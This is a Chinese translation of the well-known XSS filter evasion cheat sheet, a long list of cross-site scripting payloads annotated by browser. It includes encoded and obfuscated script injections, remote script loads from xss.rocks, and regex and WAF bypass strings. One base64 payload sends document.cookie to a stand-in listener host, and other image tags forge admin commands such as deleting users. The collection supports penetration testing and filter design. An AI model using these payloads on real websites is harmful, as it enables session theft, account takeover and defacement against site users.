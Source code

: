 ### 2.11. 使用默认 SRC 属性绕过 SRC 域名过滤器（有效）

这种方法可以绕过大多数 SRC 域名过滤器。将 JavaScript 代码插入事件方法同样适用于注入使用 elements 的任何 HTML 标签，例如 Form, Iframe, Input, Embed 等等。它同样允许将事件替换为任何标签中可用的事件类型，例如 onblur, onclick。下面会给出许多不同的可注入事件列表。由 David Cross 提交，Abdullah Hussam(@Abdulahhusam)编辑。

```html
<img src="#" onmouseover="alert('xxs')" />
```

### 2.12. 使用默认为空的 SRC 属性（无效）

```html
<IMG SRC= onmouseover="alert('xxs')">
```

### 2.13. 不使用 SRC 属性

通过 css 设置 img 大小达到可 mouseover 的情况，方有效。

```html
<img onmouseover="alert('xxs')" />
```

### 2.14. 通过 error 事件触发 alert（有效）

```html
    <IMG SRC=/ onerror="alert(String.fromCharCode(88,83,83))"></img>
```

### 2.15. 使用 IMG 标签中 onerror 属性并对 alert 进行编码（有效）

```html
<img src=x onerror="&#0000106&#0000097&#0000118&#0000097&#0000115&#0000099&#0000114&#0000105&#0000112&#0000116&#0000058&#0000097&#0000108&#0000101&#0000114&#0000116&#0000040&#0000039&#0000088&#0000083&#0000083&#0000039&#0000041">
```

### 2.16. 十进制 HTML 字符实体编码

所有在 IMG 标签里直接使用`javascript:`形式的 XSS 示例无法在 Firefox 或 Netscape 8.1 以上浏览器（使用 Gecko 渲染引擎）运行。

```html
<img
  src="&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;"
  &#39;&#88;&#83;&#83;&#39;&#41;
/>
```

### 2.17. 不带分号的十进制 HTML 字符实体编码

```html
<img
  src="&#0000106&#0000097&#0000118&#0000097&#0000115&#0000099&#0000114&#0000105&#0000112&#0000116&#0000058&#0000097&"
  #0000108&#0000101&#0000114&#0000116&#0000040&#0000039&#0000088&#0000083&#0000083&#0000039&#0000041
/>
```

### 2.18. 不带分号的十六进制 HTML 字符实体编码

```html
<img
  src="&#x6A&#x61&#x76&#x61&#x73&#x63&#x72&#x69&#x70&#x74&#x3A&#x61&#x6C&#x65&#x72&#x74&#x28&#x27&#x58&#x53&#x53&#x27&#x29"
/>
```

### 2.19. 内嵌 TAB

```html
<img src="jav	ascript:alert('XSS');" />
```

### 2.20. 内嵌编码后 TAB

```html
<img src="jav&#x09;ascript:alert('XSS');" />
```

### 2-30 双尖括号<（chrome 即可测试）

在正常标签后面使用一个左尖括号< 代替 右尖括号>，就可以用远程脚本攻击正常页面，比如直接用远程攻击脚本内容代替正常页面上的表单，从而直接获取用户提交的信息。没有左尖括号时，在 Firefox 中生效，而在 Netscape 中无效。

`<iframe src=http://xss.rocks/scriptlet.html <`

### 2-31 javascript 双重转义

当应用将一些用户输入输出到例如：<SCRIPT>var a=”\$ENV{QUERY_STRING}”;</SCRIPT>的 JavaScript 中时，你想注入你的 JavaScript 脚本，你可以通过转义转义字符来规避服务器端转义引号。注入后会得到<SCRIPT>vara=”\\”;alert(‘XSS’);//”;</SCRIPT>，这时双引号不会被转义并且可以触发跨站脚本攻击向量。XSS 定位器就用了这种方法:

`\";alert('XSS');//`

另一种方法是，直接使用 script 闭合标签，并开始自己的 script 脚本块：

`</script><script>alert('XSS');</script>`

### 2-32 </TITLE>（chrome 即可测试）

这是一个简单的闭合<TITLE>标签的 XSS 攻击向量，可以包含恶意的跨站脚本攻击:

`</TITLE><SCRIPT>alert("XSS");</SCRIPT>`

### 2-33 INPUT 标签中设置 image（chrome 测试无效）

`<INPUT TYPE="IMAGE" SRC="javascript:alert('XSS');">`

### 2-34 BODY 标签中设置 image（chrome 测试无效）

`<BODY BACKGROUND="javascript:alert('XSS')">`

### 2-35 IMG 标签的 Dynsrc 属性（chrome 测试无效）

`<IMG DYNSRC="javascript:alert('XSS')">`

`（注意：该属性只在IE和Netscape中支持，img dynsrc可以用来插入各种多媒体，格式可以是Wav、Avi、AIFF、AU、MP3、Ra、Ram等等）`

### 2-36 IMG 标签的 lowsrc 属性（chrome 测试无效）

`<IMG LOWSRC="javascript:alert('XSS')">`

`（注意：该属性用于设置低分辨率下的图片）`

### 3-37 列表样式设置图片（chrome 测试无效）

使用 JavaScript 伪协议在列表 List 中嵌入图片，这种情况只在 IE 浏览器中有用

`<STYLE>li {list-style-image: url("javascript:alert('XSS')");}</STYLE><UL><LI>XSS</br>`

### 2-38 图片标签中使用 VBscript 片（chrome 测试无效）

`<IMG SRC='vbscript:msgbox("XSS")'>`

`（注意：在 IE 中除了支持 JavaScript 外，还支持 VBScript,但是 Firefox、Chrome 中是不支持 VBScript 的）`

### 2-39 Livescript（chrome 测试无效,仅限旧版本的 Netscape 浏览器）

`<IMG SRC="livescript:[code]">`

`（注意：LiveScript是JavaScript语言的前身）`

### 2-40 Svg 对象标签 (chrome 测试生效)

`<svg/onload=alert('XSS')>`

### 2-41 es6 (chrome 测试无效)

`Set.constructor`alert\x28document.domain\x29``

### 2-42 body 标签 (chrome 测试生效)

`<BODY ONLOAD=alert('XSS')>`

### 2-43 事件处理程序

### 2-44 BGSOUND (chrome 测试无效)

`<bgsound>是IE浏览器中设置网页背景音乐的元素。该特性是非标准的，请尽量不要在生产环境中使用它！`

### 2-45 & JavaScript includes (chrome 测试无效)

`<BR SIZE="&{alert('XSS')}">`

### 2-46 stylesheet 样式表引入 (chrome 测试无效)

`<LINK REL="stylesheet" HREF="javascript:alert('XSS');">`

### 2-47 远程样式表 （chrome 测试无效）

`<LINK REL="stylesheet" HREF="http://xss.rocks/xss.css">`

### 2-48 远程样式表 2 (chrome 测试无效)

`<STYLE>@import'http://xss.rocks/xss.css';</STYLE>`

### 2-49 远程样式表 3 （chrome 测试无效）

`<META HTTP-EQUIV="Link" Content="<http://xss.rocks/xss.css>; REL=stylesheet">`

### 2-50 远程样式表 4 (chrome 测试无效)

`<STYLE>BODY{-moz-binding:url("http://xss.rocks/xssmoz.xml#xss")}</STYLE>`

### 2-51

### 2-60 META

META 标签可以设置刷新，这个刷新功能比较奇怪的是并不会在头部中发送一个 referrer，所以它通常用于不需要 referrer 的时候:

比如下面的刷新跳转在 chrome 中可以生效：

`<meta http-equiv="Refresh" content="3;url=http://www.haishui.NET">`

比如下面的刷新已经被 chrome 拦截，并不会发生：

`<META HTTP-EQUIV="refresh" CONTENT="0;url=javascript:alert('XSS');">`

#### 2-60-1 使用编码数据的 META

URL scheme 指令。这个非常有用因为它并不包含任何可见的 SCRIPT 单词或 JavaScript 指令,因为它使用了 base64 编码.请查看 RFC 2397 寻找更多细节。你同样可以使用具有 Base64 编码功能的 XSS 工具来编码 HTML 或 JavaScript:

`<META HTTP-EQUIV="refresh" CONTENT="0;url=data:text/html base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K">`

`（注意：chrome浏览器已经拦截data形式的刷新）`

#### 2-60-2 含有额外 URL 参数的 META

如果目标站点尝试检查 URL 是否包含"http://"，你可以用以下技术规避它(由 Moritz Naumann 提交):

`<META HTTP-EQUIV="refresh" CONTENT="0; URL=http://;URL=javascript:alert ('XSS');">`

`（注意：在chrome中，会发生刷新，刷新到空白页about:blank，javascript指令alert事件并不会发生）`

### 2-61 IFRAME（chrome 即可测试）

如果可以使用 Iframe，也会有很多 XSS 问题:

`<IFRAME SRC="javascript:alert('XSS');"></IFRAME>`

### 2-62 基于事件 IFRAME（chrome 即可测试）

Iframes 和大多数其他元素可以使用下列事件(由 David Cross 提交):

`<IFRAME SRC=# onmouseover="alert(document.cookie)"></IFRAME>`

### 2-63 FRAME（chrome 即可测试）

Frames 和 iframe 一样有很多 XSS 问题:
`

<FRAMESET><FRAME SRC="javascript:alert('XSS');"></FRAMESET>`

`（注意：FRAMESET标签不能和body标签一起使用）`

### 2-64 TABLE（chrome 测试无效）

`<TABLE BACKGROUND="javascript:alert('XSS')">`

#### 2-64-1 TD（chrome 测试无效）

和上面一样，TD 也可以通过 BACKGROUND 来包含 JavaScript XSS 攻击向量:

`<TABLE><TD BACKGROUND="javascript:alert('XSS')">`

### 2-65 DIV

#### 2-65-1 DIV 背景图像（chrome 测试无效）

`<DIV STYLE="background-image: url(javascript:alert('XSS'))">`

#### 2-65-2 使用 Unicode XSS 代码设置 DIV 背景图像（chrome 测试无效）

这进行了一些修改来混淆 URL 参数。原始的漏洞是由 Renaud Lifchitz 在 Hotmail 发现的:

`<DIV STYLE="background-image:\0075\0072\006C\0028'\006a\0061\0076\0061\0073\0063\0072\0069\0070\0074\003a\0061\006c\0065\0072\0074\0028.1027\0058.1053\0053\0027\0029'\0029">`

#### 2-65-3 含有额外字符的 DIV 背景图像（chrome 测试无效）

Rnaske 进行了一个快速的 XSS 模糊测试来发现 IE 和安全模式下的 Netscape 8.1 中任何 可以在左括号和 JavaScript 指令间加入的额外字符。这都是十进制的但是你也可以使用十 六进制来填充(以下字符可用:1-32, 34, 39, 160, 8192-8.13, 12288, 65279):

`<DIV STYLE="background-image: url(&#1;javascript:alert('XSS'))">`

`（注意：chrome测试的时候，均提示css属性值不对，chrome测试均无效）`

#### 2-65-4 DIV 表达式（chrome 测试无效）

一个非常有效的对抗现实中的跨站脚本过滤器的变体是在冒号和"expression"之间添加一个换行:

`<DIV STYLE="width: expression(alert('XSS'));">`

### 2-66 html 条件选择注释块（chrome 测试无效，尽在 IE5.0 及更高版本和 IE 渲染引擎模式下的 Netscape 8.1 生效）

只能在 IE5.0 及更高版本和 IE 渲染引擎模式下的 Netscape 8.1 生效。一些网站认为在注释 中的任何内容都是安全的并且认为没有必要移除，这就允许我们添加跨站脚本攻击向量。系 统会在一些内容周围尝试添加注释标签以便安全的渲染它们。如我们所见，这有时并不起作用:

`<!--[if gte IE 4]>

 <SCRIPT>alert('XSS');</SCRIPT>

<![endif]-->`

### 2-67 BASE 标签（chrome 测试并不会弹出 alert）

在 IE 和安全模式下的 Netscape 8.1 有效。你需要使用//来注释下个字符，这样你就不会造 成 JavaScript 错误并且你的 XSS 标签可以被渲染。同样，这需要当前网站使用相对路径例如"images/image.jpg"来放置图像而不是绝对路径。如果路径以一个斜杠开头例如 "/images/image.jpg"你可以从攻击向量中移除一个斜杠(只有在两个斜杠时注释才会生效):

`<BASE HREF="javascript:alert('XSS');//">`

`（注意：<base> 标签为页面上的所有链接规定默认地址或默认目标。）`

### 2-68 OBJECT 标签（chrome 即可测试）

如果允许使用 OBJECT，你可以插入一个 xss 攻击变量来攻击用户，类似于 APPLET 标签。链接文件实际是含有你 XSS 攻击代码的 HTML 文件:

`<OBJECT TYPE="text/x-scriptlet" DATA="http://xss.rocks/scriptlet.html"></OBJECT>`

### 2-69 使用 EMBED 标签加载含有 XSS 的 FLASH 文件

下面有一个例子,如果你添加了属性 allowScriptAccess="never"以及 allownetworking="internal"则可以 减小风险(感谢 Jonathan Vanasco 提供的信息):

`<EMBED SRC="http://ha.ckers.Using an EMBED tag you can embed a Flash movie that contains XSS. Click here for a demo. If you add the attributes allowScriptAccess="never" and allownetworking="internal" it can mitigate this risk (thank you to Jonathan Vanasco for the info).: org/xss.swf" AllowScriptAccess="always"></EMBED>`

### 2-70 使用 EMBED SVG 包含攻击向量（chrome 即可测试）

该示例只在 FireFox 下有效，但是比上面的攻击向量在 FireFox 下好，因为不需要用户安装 或启用 FLASH。感谢 nEUrOO 提供:

`<EMBED SRC="data:image/svg+xml;base64,PHN2ZyB4bWxuczpzdmc9Imh0dH A6Ly93d3cudzMub3JnLzIwMDAvc3ZnIiB4bWxucz0iaHR0cDovL3d3dy53My5vcmcv MjAwMC9zdmciIHhtbG5zOnhsaW5rPSJodHRwOi8vd3d3LnczLm9yZy8xOTk5L3hs aW5rIiB2ZXJzaW9uPSIxLjAiIHg9IjAiIHk9IjAiIHdpZHRoPSIxOTQiIGhlaWdodD0iMjAw IiBpZD0ieHNzIj48c2NyaXB0IHR5cGU9InRleHQvZWNtYXNjcmlwdCI+YWxlcnQoIlh TUyIpOzwvc2NyaXB0Pjwvc3ZnPg==" type="image/svg+xml" AllowScriptAccess="always"></EMBED>`

### 2-71 在 FLASH 中使用 ActionScript 混淆 XSS 攻击向量(暂时未测试)

`a="get"; b="URL(\""; c="javascript:"; d="alert('XSS');\")"; eval(a+b+c+d);`

### 2-72 CDATA 混淆的 XML 数据岛（只在 IE 和使用 IE 渲染模式的 Netscape 8.1 下有效）

这个 XSS 攻击只在 IE 和使用 IE 渲染模式的 Netscape 8.1 下有效-攻击向量由 Sec Consult 在审计 Yahoo 时发现

`<XML ID="xss"><I><B><IMG SRC="javas<!-- -->cript:alert('XSS')"></B></I></XML> <SPAN DATASRC="#xss" DATAFLD="B" DATAFORMATAS="HTML"></SPAN>`

### 2-73 使用 XML 数据岛生成含内嵌 JavaScript 的本地 XML 文件（只在 IE 和使用 IE 渲染模式的 Netscape 8.1 下有效）

这和上面是一样的,但是将来源替换为了包含跨站脚本攻击向量的本地 XML 文件(必须在同一服务器上):

`<XML SRC="xsstest.xml" ID=I></XML> <SPAN DATASRC=#I DATAFLD=C DATAFORMATAS=HTML></SPAN>`

### 2-74 XML 中使用 HTML+TIME（只在 IE 和 IE 渲染模式下的 Netscape 8.1 有效）

这是 Grey Magic 攻击 Hotmail 和 Yahoo 的方法。这只在 IE 和 IE 渲染模式下的 Netscape 8.1 有效并且记得需要在 HTML 域的 BODY 标签中间才有效:

### 2-75 使用一些字符绕过".js"过滤

你可以将你的 JavaScript 文件重命名为图像来进行 XSS 攻击:

`<SCRIPT SRC="http://xss.rocks/xss.jpg"></SCRIPT>`

### 2-76 SSI(Server Side Includes)

这需要在服务器端允许 SSI 来使用 XSS 攻击向量。似乎不用提示这点，因为如果你可以在 服务器端执行指令那一定是有更严重的问题存在:

`<!--#exec cmd="/bin/echo '<SCR'"--><!--#exec cmd="/bin/echo 'IPT SRC=http://xss.rocks/xss.js></SCRIPT>'"-->`

### 2-77 PHP

需要服务器端安装了 PHP 来使用 XSS 攻击向量。同样，如果你可以远程运行任意脚本，那 会有更加严重的问题

`<? echo('<SCR)'; echo('IPT>alert("XSS")</SCRIPT>'); ?>`

### 2-78 嵌入命令的 IMAGE

当页面受密码保护并且这个密码保护同样适用于相同域的不同页面时有效，这可以用来进行 删除用户，增加用户(如果访问页面的是管理员的话)，将密码发送到任意地方等等。。这 是一个较少使用但是更有价值的 XSS 攻击向量:

`<IMG SRC="http://www.thesiteyouareon.com/somecommand.php?somevariables=maliciouscode">`

### 2-78-1 嵌入命令的 IMAGE 第二部分

这更加可怕因为这不包含任何可疑标识，除了它不在你自己的域名上。这个攻击向量使用一个 302 或 304(其他的也有效)来重定向图片到指定命令。所以一个普通的<IMG SRC="httx://badguy.com/a.jpg">对于访问图片链接的用户来说也有可能是一个攻击向 量。下面是利用.htaccess(Apache)配置文件来实现攻击向量。(感谢 Timo 提供这部分。):

`Redirect 302 /a.jpg http://victimsite.com/admin.asp&deleteuser`

### 2-79 Cookie 篡改

尽管公认不太实用，但是还是可以发现一些允许使用 META 标签的情况下可用它来覆写 cookie。另外的例子是当用户访问网站页面时，一些网站读取并显示存储在 cookie 中的用户名，而不是数据库中。当这两种场景结合时，你可以修改受害者的 cookie 以便将 JavaScript 注入到其页面中(你可以使用这个让用户登出或改变他们的用户状态，甚至可以 让他们以你的账户登录):

`<META HTTP-EQUIV="Set-Cookie" Content="USERID=<SCRIPT>alert('XSS')</SCRIPT>">`

`(注意：chrome已经拦截该形式)`

### 2-80 UTF-7 编码

如果存在 XSS 的页面没有提供页面编码头部，或者使用了任何设置为使用 UTF-7 编码的浏 览器，就可以使用下列方式进行攻击(感谢 Roman Ivanov 提供)。这在任何不改变编码类 型的现代浏览器上是无效的，这也是为什么标记为完全不支持的原因。Watchfire 在 Google 的自定义 404 脚本中发现这个问题:

`<HEAD><META HTTP-EQUIV="CONTENT-TYPE" CONTENT="text/html; charset=UTF-7"> </HEAD>+ADw-SCRIPT+AD4-alert('XSS');+ADw-/SCRIPT+AD4-`

### 2.81 利用 HTML 引号包含的 XSS

注：源文章内容出现为 httx 的字符，测试改为 http

这在 IE 中测试通过，但还得视情况而定。
它是为了绕过那些允许`<SCRIPT>`但是不允许`<SCRIPT SRC...`形式的正则过滤，即`/<script[^>]+src/i`：

(有效)

```html
<script a=">" src="httx://xss.rocks/xss.js"></script>
```

---

这是为了绕过那些允许 `<SCRIPT>` 但是不允许 `<SCRIPT SRC...` 形式的正则过滤，即`/<script((\s+\w+(\s*=\s*(?:"(.)*?"|'(.)*?'|[^'">\s]+))?)+\s*|\s*)src/i`（这很重要，因为在实际环境中出现过这种正则过滤）
(无效)

```html
<SCRIPT =">" SRC="httx://xss.rocks/xss.js"></SCRIPT>
```

---

另一个绕过此正则过滤`/<script((\s+\w+(\s*=\s*(?:"(.)*?"|'(.)*?'|[^'">\s]+))?)+\s*|\s*) src/i`的 XSS：
(有效)

```html
<SCRIPT a=">" '' SRC="httx://xss.rocks/xss.js"></SCRIPT>
```

---

又一个绕过正则过滤`/<script((\s+\w+(\s*=\s*(?:"(.)*?"|'(.)*?'|[^'">\s]+))?)+\s*|\s*)sr c/i`的 XSS。尽管不想提及防御方法，但如果你想允许`<SCRIPT>`标签但不加载远程脚本，针对这种 XSS 只能使用状态机去防御（当然如果允许`<SCRIPT>`标签的话，还有其他方法绕过）：
(有效)

```html
<SCRIPT "a='>'" SRC="httx://xss.rocks/xss.js"></SCRIPT>
```

---

最后一个绕过此正则过滤`/<script((\s+\w+(\s*=\s*(?:"(.)*?"|'(.)*?'|[^'">\s]+))?)+\s*|\ s*)src/i`的 XSS，使用了重音符（在 Firefox 下无效）：
(无效)

```html
<script a="`">
  ` SRC="httx://xss.rocks/xss.js">
</script>
```

---

这是一个 XSS 样例，用来绕过那些不会检查引号配对，而是发现任何引号就立即结束参数字符串的正则表达式：
(有效)

```html
<script a=">'>" src="httx://xss.rocks/xss.js"></script>
```

---

这个 XSS 很让人担心，因为如果不过滤所有活动内容几乎不可能防止此攻击：
(有效)

```html
<SCRIPT>document.write("<SCRI");</SCRIPT>PT SRC="httx://xss.rocks/xss.js"></SCRIPT>
```

### 2.82 URL 字符绕过

假定"http://www.google.com/"是不被允许的：

(应换成当前 google 对应的 ip，此处原文 ip 地址 已失效，demo 以 google 域名对应 即时 ip 及其编码为准-海秋)

#### 2.82.1. IP 代替域名(有效)

```html
<a href="http://66.102.7.147/">XSS</a>
```

#### 2.82.2. URL 编码(有效)

```html
<a href="http://%77%77%77%2E%67%6F%6F%67%6C%65%2E%63%6F%6D">XSS</a>
```

#### 2.82.3. 双字节编码(未测试)

(注意：还有另一种双字节编码):

```html
<a href="http://1113982867/">XSS</a>
```

#### 2.82.4. 十六进制编码(有效)

每个数字的允许的范围大概是 240 位字符，就如你在第二位上看到的，并且由于十六进制 是在 0 到 F 之间，所以开头的 0 可以省略：

```html
<a href="http://0x42.0x0000066.0x7.0x93/">XSS</a>
```

#### 2.82.5. 八进制编码(有效)

又一次允许填充，尽管你必须保证每类在 4 位字符以上-例如 A 类，B 类等等：

```html
<a href="http://0102.0146.0007.00000223/">XSS</a>
```

#### 2.82.6. Base64 编码(无效)

```html
<img
  onload="eval(atob('ZG9jdW1lbnQubG9jYXRpb249Imh0dHA6Ly9saXN0ZXJuSVAvIitkb2N1bWVudC5jb29raWU='))"
/>
```

#### 2.82.7. 混合编码(无效)

混合基本编码并在其中插入一些 TAB 和换行(虽然不知道浏览器为什么允许这样做)。

TAB 和换行只有被引号包含时才有效：

```html
<a
  href="h
tt p://6 6.000146.0x7.147/"
  >XSS</a
>
```

#### 2.82.8. 协议解析绕过(有效)

(// 替代 http://可以节约很多字节).当输入空间有限时很有用(少两个字符可能解决大问题) 而且可以轻松绕过类似"(ht|f)tp(s)?://"的正则过滤(感谢 Ozh 提供这部分).你也可以将"//" 换成"\\"。你需要保证斜杠在正确的位置，否则可能被当成相对路径 URL：

```html
<a href="//www.google.com/">XSS</a>
```

#### 2.82.9. Google 的"feeling lucky" part 1

Firefox 使用 Google 的"feeling lucky"功能根据用户输入的任何关键词来让用户跳转到其认为最可能的网站。如果你存在漏洞的页面在某些随机关键词上搜索引擎排名是第一的，你就可以利用这一特性来攻击 Firefox 用户。这使用了 Firefox 的"keyword:"协议。你可以像下面一样使用多个关键词"keyword:XSS+RSnake"。这在 Firefox2.0 后不再有效。

```html
<a href="//google">XSS</a>
```

#### 2.82.10. Google 的"feeling lucky" part 2

这是用了一个仅在 Firefox 上有效的小技巧，因为他实现了"feeling lucky"功能。不像下面一个例子，这个在 Opera 上无效因为 Opera 会认为这个是一个老式的 HTTP 基础认证钓鱼攻击，但它并不是。他只是一个异常的 URL，如果你点击了对话框确定，它就可以生效。但是在 Opera 上会是一个错误错误对话框，所以认为其不被 Opera 所支持，同样在 Firefox 2.0 后不再有效。

```html
<a href="http://ha.ckers.org@google">XSS</a>
```

#### 2.82.11. Google 的"feeling lucky" part 3

这是一个异常的 URL，只作用于 Firefox 以及 Opera，因为他们实现了"feeling lucky"功能.像上面的例子一样，他要求你的攻击页面在 Google 上特定关键词排名第一(在这个示例里关键词是"google")

```html
<a href="http://google:ha.ckers.org">XSS</a>
```

#### 2.82.12. 移除别名

当结合上面的 URL，移除"www."会节约 4 个字节，总共为正确设置的服务器节省 9 字节:

```html
<a href="http://google.com/">XSS</a>
```

#### 2.82.13. 绝对 DNS 后额外的点

```html
<a href="http://www.google.com./">XSS</a>
```

#### 2.82.14. JavaScript link location

```html
<a href="javascript:document.location='http://www.google.com/'">XSS</a>
```

#### 2.82.15 内容替换作为攻击向量

```html
<a href="http://www.google.com/ogle.com/">XSS</a>
```

#### 2.83. 字符转义表

下面是 HTML 和 JavaScript 中字符"<"所有可能的组合。其中大部分不会被渲染出来，但是其中许多可以在某些特定情况下呈现。

```
<
%3C
&lt
&lt;
&LT
&LT;
&#60
&#060
&#0060
&#00060
&#000060
&#0000060
&#60;
&#060;
&#0060;
&#00060;
&#000060;
&#0000060;
&#x3c
&#x03c
&#x003c
&#x0003c
&#x00003c
&#x000003c
&#x3c;
&#x03c;
&#x003c;
&#x0003c;
&#x00003c;
&#x000003c;
&#X3c
&#X03c
&#X003c
&#X0003c
&#X00003c
&#X000003c
&#X3c;
&#X03c;
&#X003c;
&#X0003c;
&#X00003c;
&#X000003c;
&#x3C
&#x03C
&#x003C
&#x0003C
&#x00003C
&#x000003C
&#x3C;
&#x03C;
&#x003C;
&#x0003C;
&#x00003C;
&#x000003C;
&#X3C
&#X03C
&#X003C
&#X0003C
&#X00003C
&#X000003C
&#X3C;
&#X03C;
&#X003C;
&#X0003C;
&#X00003C;
&#X000003C;
\x3c
\x3C
\u003c
\u003C
```

### 3. 绕过 WAF(Web Application Firewall)的方法 - 跨站脚本

通用问题

- 存储型 XSS

如果攻击者已经让 XSS 绕过过滤器，WAF 将无法阻止攻击透过。

- 基于 Javascript 的反射型 XSS

```
实例: <script> ... setTimeout(\"writetitle()\",$_GET[xss]) ... </script>
利用: /?xss=500); alert(document.cookie);//
```

- 基于 DOM 的 XSS

```
实例: <script> ... eval($_GET[xss]); ... </script>
利用: /?xss=document.cookie
```

#### 通过请求重定向构造 XSS

- 存在漏洞代码

```
 ...
 header('Location: '.$_GET['param']);
 ...
```

同样包括：

```
...
 header('Refresh: 0; URL='.$_GET['param']);
 ...
```

- 这种请求不会绕过 WAF

```
 /?param=javascript:alert(document.cookie)
```

- 这种请求可以绕过 WAF 并且 XSS 攻击可以在某些浏览器执行：

```
 /?param=data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4=
```

#### WAF 绕过字符串

```html
<Img src = x onerror = "javascript: window.onerror = alert; throw XSS">
<Video> <source onerror = "javascript: alert (XSS)">
<Input value = "XSS" type = text>
<applet code="javascript:confirm(document.cookie);">
<isindex x="javascript:" onmouseover="alert(XSS)">
"></SCRIPT>”>’><SCRIPT>alert(String.fromCharCode(88,83,83))</SCRIPT>
"><img src="x:x" onerror="alert(XSS)">
"><iframe src="javascript:alert(XSS)">
<object data="javascript:alert(XSS)">
<isindex type=image src=1 onerror=alert(XSS)>
<img src=x:alert(alt) onerror=eval(src) alt=0>
<img  src="x:gif" onerror="window['al\u0065rt'](0)"></img>
<iframe/src="data:text/html,<svg onload=alert(1)>">
<meta content="&NewLine; 1 &NewLine;; JAVASCRIPT&colon; alert(1)" http-equiv="refresh"/>
<svg><script xlink:href=data&colon;,window.open('https://www.google.com/')></script
<meta http-equiv="refresh" content="0;url=javascript:confirm(1)">
<iframe src=javascript&colon;alert&lpar;document&period;location&rpar;>
<form><a href="javascript:\u0061lert(1)">X
</script><img/*%00/src="worksinchrome&colon;prompt(1)"/%00*/onerror='eval(src)'>
<style>//*{x:expression(alert(/xss/))}//<style></style>
On Mouse Over​
<img src="/" =_=" title="onerror='prompt(1)'">
<a aa aaa aaaa aaaaa aaaaaa aaaaaaa aaaaaaaa aaaaaaaaa aaaaaaaaaa href=j&#97v&#97script:&#97lert(1)>ClickMe
<script x> alert(1) </script 1=2
<form><button formaction=javascript&colon;alert(1)>CLICKME
<input/onmouseover="javaSCRIPT&colon;confirm&lpar;1&rpar;"
<iframe src="data:text/html,%3C%73%63%72%69%70%74%3E%61%6C%65%72%74%28%31%29%3C%2F%73%63%72%69%70%74%3E"></iframe>
```

#### 3.1 Alert 混淆以绕过过滤器

```
(alert)(1)
a=alert,a(1)
[1].find(alert)
top[“al”+”ert”](1)
top[/al/.source+/ert/.source](1)
al\u0065rt(1)
top[‘al\145rt’](1)
top[‘al\x65rt’](1)
top[8680439..toString(30)](1)
```

### 4. 作者和主要编辑

Robert "RSnake" Hansen

### 5. 贡献者

Adam Lange
Mishra Dhiraj
